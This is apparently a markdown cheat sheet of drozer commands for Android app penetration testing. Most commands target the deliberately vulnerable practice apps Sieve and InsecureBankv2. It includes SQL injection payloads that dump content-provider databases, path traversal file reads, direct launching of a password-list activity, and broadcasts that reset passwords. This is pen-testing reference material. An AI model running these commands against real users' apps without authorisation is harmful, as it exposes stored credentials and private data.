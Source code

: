 #### Setup drozer
[Android Penetration Tools Walkthrough Series: Drozer - Infosec Resources (infosecinstitute.com)](https://resources.infosecinstitute.com/topic/android-penetration-tools-walkthrough-series-drozer/)

#### Get drozer shell
	`adb forward tcp:31415 tcp:31415`
	`drozer console connect`

#### Content Providers
- Get info from exposed content providers
	`run app.provider.info -a com.mwr.example.sieve`
	
** Note: content provider queries take the form `content://name.of.package.class/declared_name` **

- Drozer can guess and try several URIs
	`run scanner.provider.finduris -a com.mwr.example.sieve`
- Query Content Provider (database based)
	`run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/ --vertical`
- Update and delete content provider (database based)
	[Exploiting Content Providers - HackTricks](https://book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting/drozer-tutorial/exploiting-content-providers)
- Manual SQL Injection test
	`run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"`
- Manual SQL Lite Dump
	`run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"`
- Automatic SQL Discovery
	`run scanner.provider.injection -a com.mwr.example.sieve`
- Read Files
	`run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts`
- Automatic Path Traversal Discovery
	`run scanner.provider.traversal -a com.mwr.example.sieve`
	
	***
	
### Permissions 
- Examine Permissions and custom permissions
	`run app.package.info -a com.spotify.music`

#### Deep links
- pull invocable URIs(deep links/app links) from the AndroidManifest.xml file
	```
	run scanner.activity.browsable -a com.google.android.apps.messaging
	Package: com.google.android.apps.messaging
	  Invocable URIs:
		sms://
		mms://
	  Classes:
		com.google.android.apps.messaging.ui.conversation.LaunchConversationActivity
	```
	
- Call deeplinks
	`run app.activity.start  --action android.intent.action.VIEW --data-uri "sms://0123456789"`

### Exported IPC components
-  Enumerate exported
	`run app.package.attacksurface com.mwr.example.sieve`
- List exported content providers
	`run app.provider.finduri com.mwr.example.sieve`
- List exported Activities
	`run app.activity.info -a com.mwr.example.sieve`
- Launch Activity directly
	`run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList`
- List exported services
	`run app.service.info -a com.mwr.example.sieve`
- Interact with service
	`run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 6345 7452 1 --extra string com.mwr.example.sieve.PASSWORD "abcdabcdabcdabcd" --bundle-as-obj`
- List broadcast recivers
	`run app.broadcast.info -a com.android.insecurebankv2`
- Send message to broadcast reciever
	`run app.broadcast.send --action theBroadcast --extra string phonenumber 07123456789 --extra string newpass 12345`
- Sniff intents
	`run app.broadcast.sniff --action theBroadcast`
	

### Scan for all debuggable applications on a device
`run app.package.debuggable`